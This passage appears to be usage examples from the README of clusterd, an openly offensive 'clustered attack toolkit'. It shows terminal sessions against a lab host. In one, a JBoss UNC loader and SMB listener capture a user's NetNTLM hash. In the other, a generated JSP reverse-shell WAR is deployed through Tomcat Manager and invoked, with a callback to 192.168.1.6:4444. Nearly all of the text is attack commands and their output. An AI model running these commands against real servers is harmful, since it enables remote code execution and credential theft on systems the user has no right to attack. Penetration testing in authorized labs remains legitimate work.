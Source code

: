 ```
 [2014-05-25 11:00PM] Finished at 2014-05-25 11:00PM
```

jboss UNC hash retrieval
```
$ sudo ./clusterd.py -i 192.168.1.105 -a jboss -v4.2 --random-agent --jb-smb

        clusterd/0.3 - clustered attack toolkit
            [Supporting 6 platforms]

 [2014-05-25 11:01PM] Started at 2014-05-25 11:01PM
 [2014-05-25 11:01PM] Servers' OS hinted at windows
 [2014-05-25 11:01PM] Fingerprinting host '192.168.1.105'
 [2014-05-25 11:01PM] Server hinted at 'jboss'
 [2014-05-25 11:01PM] Checking jboss version 4.2 JBoss JMX Console...
 [2014-05-25 11:01PM] Checking jboss version 4.2 JBoss Web Console...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss EJB Invoker Servlet...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss HTTP Headers (Unreliable)...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss JMX Invoker Servlet...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss RMI Interface...
 [2014-05-25 11:01PM] Checking jboss version Any JBoss Status Page...
 [2014-05-25 11:01PM] Matched 7 fingerprints for service jboss
 [2014-05-25 11:01PM]   JBoss JMX Console (version 4.2)
 [2014-05-25 11:01PM]   JBoss Web Console (version 4.2)
 [2014-05-25 11:01PM]   JBoss EJB Invoker Servlet (version Any)
 [2014-05-25 11:01PM]   JBoss HTTP Headers (Unreliable) (version 4.2)
 [2014-05-25 11:01PM]   JBoss JMX Invoker Servlet (version Any)
 [2014-05-25 11:01PM]   JBoss RMI Interface (version Any)
 [2014-05-25 11:01PM]   JBoss Status Page (version Any)
 [2014-05-25 11:01PM] Fingerprinting completed.
 [2014-05-25 11:01PM] Setting up SMB listener..
 [2014-05-25 11:01PM] Invoking UNC loader...
 [2014-05-25 11:01PM] bryan::bryan-PC:1122334455667788:34826253d353ebca4811bd08be0db067:01010000000000003dac35999f78cf019df7c49c7268a5f600000000020000000000000000000000
 [2014-05-25 11:01PM] Finished at 2014-05-25 11:01PM
```

tomcat deployment and reverse shell invocation
```
$ ./clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows

        clusterd/0.3 - clustered attack toolkit
            [Supporting 6 platforms]

 [2014-05-25 10:53PM] Started at 2014-05-25 10:53PM
 [2014-05-25 10:53PM] Generating payload....
 [2014-05-25 10:53PM] Payload generated (shell.war).  Payload: java/jsp_shell_reverse_tcp
 [2014-05-25 10:53PM] Servers' OS hinted at windows
 [2014-05-25 10:53PM] Fingerprinting host '192.168.1.105'
 [2014-05-25 10:53PM] Server hinted at 'tomcat'
 [2014-05-25 10:53PM] Checking tomcat version 5.5 Tomcat...
 [2014-05-25 10:53PM] Checking tomcat version 5.5 Tomcat Manager...
 [2014-05-25 10:53PM] Matched 2 fingerprints for service tomcat
 [2014-05-25 10:53PM]   Tomcat (version 5.5)
 [2014-05-25 10:53PM]   Tomcat Manager (version 5.5)
 [2014-05-25 10:53PM] Fingerprinting completed.
 [2014-05-25 10:53PM] Preparing to deploy /tmp/.clusterd/z1dgi.war...
 [2014-05-25 10:53PM] Deployed /tmp/.clusterd/z1dgi.war to /z1dgi
 [2014-05-25 10:53PM] z1dgi invoked at 192.168.1.105
 [2014-05-25 10:53PM] Finished at 2014-05-25 10:53PM
```
